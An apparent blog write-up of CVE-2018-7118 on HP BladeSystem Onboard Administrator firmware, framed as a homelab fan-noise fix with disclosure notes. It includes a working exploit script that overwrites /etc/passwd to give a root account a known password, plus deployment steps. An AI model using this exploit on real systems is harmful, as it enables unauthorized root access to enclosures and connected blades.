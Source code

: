 +++
title = "CVE-2018-7118 - Rooting your HP BladeSystem"
date = 2021-09-15
aliases = ["articles/cve-2018-7118"]

[taxonomies]
tags = ["bladesystem", "homelab", "security"]
+++

## Because it's [far too loud](https://youtu.be/SR2gjyeXbow?t=69)
#### (What, you had a nefarious reason to hack it? I just wanted to sleep.)

The HP BladeSystem is a now fairly dated blade enclosure.  
I used to run one in my bedroom - someone told me I should try keeping the cloud closer to home - and sleeping wearing ear defenders gets old after a while.  
What to do? There's no way to configure the fan curve and they can hit 18,000 RPM.


## Enter [CVE-2018-7118](https://nvd.nist.gov/vuln/detail/CVE-2018-7118)
### Let's look at the firmware

The firmware for the bladesystem enclosure manager is available online. This vulnerability requires OA firmware <= 4.80.

```bash
$ sha256sum hpoa480.bin
12809d4f96198b8c23480edf4b31c756dd58260b5d319d9becd7eb5a6f9b854f *hpoa480.bin
$ binwalk hpoa480.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
213           0xD5            uImage header, header size: 64 bytes, header CRC: 0x559534C9, created: 2017-12-13 11:17:17, image size: 1522926 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3A7352C0, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog"
277           0x115           gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:17:16
1523203       0x173E03        uImage header, header size: 64 bytes, header CRC: 0x9F09FD6A, created: 2017-12-13 11:10:30, image size: 3692025 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x80788EF4, OS: Linux, CPU: PowerPC, image type: RAMDisk Image, compression type: gzip, image name: ""initrd 171213-1007 build""
1523267       0x173E43        gzip compressed data, maximum compression, has original file name: "udog-initrd", from Unix, last modified: 2017-12-13 11:10:27
5215292       0x4F943C        Squashfs filesystem, big endian, version 2.1, size: 7447206 bytes, 2124 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:26
12665972      0xC14474        uImage header, header size: 64 bytes, header CRC: 0x9ECEFB67, created: 2017-12-13 11:24:53, image size: 1532777 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3555C9E5, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog-440EPX"
12666036      0xC144B4        gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:24:53
14198813      0xD8A81D        Squashfs filesystem, big endian, version 2.1, size: 1111378 bytes, 47 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:27
15313456      0xE9AA30        PEM certificate
15315387      0xE9B1BB        PEM certificate
15317046      0xE9B836        PEM certificate
``` 

Use `binwalk -e` on the firmware image to extract the multiple squashfs filesystems' contents.

I already have an idea of where I want to look: I know the firmware upgrade process for the blades involves loading an SPP iso on the onboard administrator and unpacking the firmware from it.  
I had a guess there might be some sort of unsafe extraction along the lines of [zip slip](https://snyk.io/research/zip-slip-vulnerability) - but for an RPM or HP SCEXE format instead - and looked for the code which handles this.

The majority of HP's custom binaries and scripts for the OA can be found under the sbin folder in the first squashfs `squashfs-root\sbin`.
`fw_mgmtd` is responsible for running firmware updates, and runs as root. To try to find more information about `scexe` unpacking, let's `grep` for that.

```bash
$ strings _hpoa480.bin.extracted/squashfs-root/sbin/fw_mgmtd | grep -i scexe
/ramdisk/unpack-scexe.lock
/usr/sbin/unpack-scexe %s >/dev/null 2>&1
Successfully unpacked HPE SCEXE SmartComponents.
HPE SCEXE Components are not found, Searching for RPM Components.
Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.
```

Looks like it calls `unpack-scexe`, which is a script. Nice! No need to disassemble to work out what this is doing.

```bash
dbg_echo ">>>>>>>>>>Unpacking $2:"
sh $2.scexe --unpack=$2  
rc=$?
rm $2.scexe
if [ $rc -eq 0 ]; then
    dbg_echo "Successfully unpacked $2"
    return $rc
else
    dbg_echo ">>>> Failed to unpack $2.scexe"
    return $rc
fi
```

### The exploit steps

Oh dear. It runs the supplied .scexe file as a script. Let's try replacing the HP supplied update with a shell script of our own choosing.  
The Linux install on this is extremely stripped down, no `passwd` command here.

```bash
#!/bin/sh
#!scexe

_SKIP=347
_INTERFACE_VERSION=scexe-interface-1.03-22
_INSTALLER=flash_ilo4

# the udog user already exists on this system with uid 0 before we touch anything
# the hash here is for the password compaq
# 
echo "udog:pD.WvCQWQJ4Kc:0:0:0,,:/:/bin/sh" > /etc/passwd.new
grep -v -e '^udog:' /etc/passwd >> /etc/passwd.new
mv /etc/passwd.new /etc/passwd
chmod 666 /etc/passwd
chown 1:1 /etc/passwd
exit 1
```

Replace/add it at this path `hp/swpackages/root.scexe`. Put the new SPP ISO somewhere accessible by the OA, either on an HTTP(no S) server or on an ext2 partition on a flash drive plugged into it.  
Use the web UI to start firmware management.  
Wait for it to fail the iLO upgrade step with `Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.`  
SSH in with username `udog` password `compaq`.

![](and-we're-in.png "Screenshot of an active root shell running on the BladeSystem c3000 OA")



## Now to finally slow down those fans

Patching the thermal management code to use a different fan curve is probably the more correct way of fixing this, but that's a more involved process for another post if I ever run a BladeSystem again.
A simple fix which sets the fan speed every 10 seconds on a loop worked fine for me. The `fan` binary this calls is already provided by HP.

```bash
#!/bin/sh
# slowfan.sh

SPD=40
if [ $# -eq 1 ]; then
	SPD=$1
fi

while true; do
	sleep 10
	# i'm not being paid enough to put a loop here
	fan 1 $SPD
	fan 2 $SPD
	fan 3 $SPD
	fan 4 $SPD
	fan 5 $SPD
	fan 6 $SPD
done
```

A little crude, but functional.

## Responsible Disclosure, HPE, and the Onboard Administrator as a juicy target

HPE don't operate a public bug bounty program, and provided no compensation for reporting this issue.
It is likely there are other security issues with the Onboard Administrator - the very first thing I looked at as a plausible escalation path worked, which doesn't bode well - but don't have much incentive to look into them as I got what I needed and can control the fan speed.
Keep any Onboard Administrator safely isolated from anything less trusted than it as getting root on it means full access to: 

* The blades' iLO
* Whatever is running on those blades
* Any network physically connected to the VirtualConnect switches
* Any storage connected to other types of interconnect modules
* The potential to tamper with the firmware on any inserted device without any audit trail

The particular vulnerability here requires someone to already have access to an account with permissions to trigger firmware upgrades, but it is very plausible that a path starting with anonymous access to here exists.
